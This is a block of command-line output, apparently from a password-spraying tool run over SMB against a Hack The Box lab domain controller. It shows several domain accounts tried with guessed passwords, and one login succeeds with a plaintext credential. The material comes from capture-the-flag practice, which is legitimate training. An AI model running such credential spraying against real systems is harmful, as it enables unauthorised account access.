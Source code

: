 ```shell
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper_adm:KingofAkron2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\ant.edwards:liverpool STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\adam.silver:liverpool STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\jamie.williams:liverpool STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper:liverpool STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper_adm:liverpool STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\ant.edwards:HJKL2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\adam.silver:HJKL2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\jamie.williams:HJKL2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper:HJKL2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper_adm:HJKL2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [+] PUPPY.HTB\ant.edwards:Antman2025! 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\adam.silver:Antman2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\jamie.williams:Antman2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper:Antman2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper_adm:Antman2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\adam.silver:JamieLove2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\jamie.williams:JamieLove2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper:JamieLove2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper_adm:JamieLove2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\adam.silver:ILY2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\jamie.williams:ILY2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper:ILY2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper_adm:ILY2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\adam.silver:Steve2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\jamie.williams:Steve2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper:Steve2025! STATUS_LOGON_FAILURE 
SMB         10.129.184.6    445    DC               [-] PUPPY.HTB\steph.cooper_adm:Steve2025! STATUS_LOGON_FAILURE
```
